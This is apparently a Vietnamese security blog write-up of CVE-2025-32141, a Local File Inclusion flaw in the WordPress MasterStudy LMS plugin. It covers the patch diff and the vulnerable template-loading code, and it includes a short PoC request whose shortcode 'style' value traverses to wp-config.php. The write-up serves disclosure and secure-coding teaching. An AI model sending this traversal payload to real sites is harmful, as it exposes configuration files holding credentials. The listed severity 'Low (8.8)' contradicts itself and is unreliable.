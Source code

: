```yaml
---
title: CVE-2025-32141 Analysis & POC
description: Security Vulnerability in WordPress MasterStudy LMS Plugin.
date: 2025-10-21 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info
Plugin **MasterStudy LMS** phiên bản **≤ 3.5.28** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-32141](https://www.cve.org/CVERecord?id=CVE-2025-32141)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 3.5.28
* **Patched Versions**: 3.5.29
* **CVSS severity**: Low (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress MasterStudy LMS Plugin](https://wordpress.org/plugins/masterstudy-lms-learning-management-system/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **MasterStudy LMS**: **3.5.28** (vulnerable) và **3.5.29** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {filename="stm_lms_courses_categories.php v3.5.28" hl_lines=[7,12]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts ) {
    $atts = shortcode_atts(
        array(
            'taxonomy' => '',
            'style'    => 'style_1',
        ),
        $atts
    );
    ob_start();
    STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
    return ob_get_clean();
}
```

Trong phiên bản lỗi, callback của shortcode `stm_lms_courses_categories` lấy trực tiếp giá trị `style` từ mảng `$atts` và truyền thẳng vào `STM_LMS_Templates::stm_lms_load_vc_element()` mà không có bất kỳ kiểm tra hay làm sạch đầu vào nào => LFI có thể xảy ra.

**Bản vá**:

```php {filename="stm_lms_courses_categories.php v3.5.29" hl_lines=[7,12,14]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts, $content = null, $tag = '' ) {
	$atts = shortcode_atts(
		array(
			'taxonomy' => '',
			'style'    => 'style_1',
		),
		$atts,
		$tag
	);
	$atts['style'] = basename( sanitize_file_name( $atts['style'] ) );
	ob_start();
	STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
	return ob_get_clean();
}
```

Bản vá đã sanitize `$atts['style']` bằng [`sanitize_file_name()`](https://developer.wordpress.org/reference/functions/sanitize_file_name/) đã loại bỏ chuỗi/ký tự không an toàn => ngăn chặn LFI.

### Vulnerable Code 

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_load_vc_element( $__template, $__vars = array(), $__template_name = '', $custom_path = '' ) {
    extract( $__vars ); // phpcs:ignore WordPress.PHP.DontExtract
    $element = self::stm_lms_locate_vc_element( $__template, $__template_name, $custom_path );
    if ( ! file_exists( $element ) && strpos( $__template_name, 'style_' ) !== false ) {
        $element = str_replace( $__template_name, 'style_1', $element );
    }
    if ( file_exists( $element ) ) {
        include $element;
    } else {
        echo esc_html__( 'Element not found in', 'masterstudy-lms-learning-management-system' );
        echo esc_html( ' ' . $element );
    }
}
```

Hàm `include()` tại đây dùng biến `$element` do `stm_lms_locate_vc_element()` trả về và `$__template_name` (tức giá trị `style` từ shortcode) ảnh hưởng trực tiếp tới kết quả đó. Nếu `style` không được xác thực, attacker có thể ép `include` file tùy ý dẫn đến LFI.

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_locate_vc_element( $templates, $template_name = '', $custom_path = '' ) {
    $located = false;

    foreach ( (array) $templates as $template ) {

        $folder = $template;

        if ( ! empty( $template_name ) ) {
            $template = $template_name;
        }

        if ( substr( $template, -4 ) !== '.php' ) {
            $template .= '.php';
        }

        if ( empty( $custom_path ) ) {
            $located = locate_template( 'partials/vc_parts/' . $folder . '/' . $template );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/includes/shortcodes/partials/' . $folder . '/' . $template;
            }
        } else {
            $located = locate_template( $custom_path );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/' . $custom_path . '.php';
            }
        }

        if ( file_exists( $template_name ) ) {
            break;
        }
    }

    return apply_filters( 'stm_lms_locate_vc_element', $located, $templates );
}
```

Hàm `stm_lms_locate_vc_element()` có nhiệm vụ xác định và trả về đường dẫn file template (`.php`) 

Nếu có `$template_name`, nó sẽ **ghi đè tên template mặc định** và đảm bảo tên file có phần mở rộng `.php`. Tên file sẽ là`STM_LMS_PATH/includes/shortcodes/partials/{folder}/{template}.php`

Ví dụ với `style=payload` thì `stm_lms_locate_vc_element()` sẽ trả về:

```py
/srv/www/wordpress/wp-content/plugins/masterstudy-lms-learning-management-system/_core/includes/shortcodes/partials/courses_categories/payload.php
```

## Exploit
### Proof of Concept (PoC)

Tạo post với shortcode có attribute `style` chứa LFI payload

```http {hl_lines=[4]}
POST /wp-json/wp/v2/posts/260?_locale=user HTTP/1.1
Host: localhost

{"id":260,"content":"<!-- wp:shortcode -->\n[stm_lms_courses_categories taxonomy=x style=../../../../../../../../wp-config]\n<!-- /wp:shortcode -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->"}
```

**Kết quả**:

Debugger đã nhảy đến `wp-config.php`

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

Phiên bản **≤ 3.5.28** của MasterStudy LMS cho phép LFI qua tham số `style` trong shortcode do không kiểm tra đầu vào trước khi `include` file. Bản vá **3.5.29** đã làm sạch giá trị này bằng `sanitize_file_name()` và `basename()`, ngăn chặn việc truy cập file ngoài ý muốn.

## Key takeaways

* Không bao giờ ghép trực tiếp input người dùng vào đường dẫn file.
* Luôn sanitize hoặc giới hạn giá trị bằng whitelist trước khi `include`.
* Xác thực đường dẫn thực tế để đảm bảo file nằm trong thư mục hợp lệ.
* Cập nhật lên **v3.5.29** để loại bỏ lỗ hổng LFI.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress MasterStudy LMS Plugin <= 3.5.28 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/masterstudy-lms-learning-management-system/vulnerability/wordpress-masterstudy-lms-plugin-3-5-23-local-file-inclusion-vulnerability?_s_id=cve)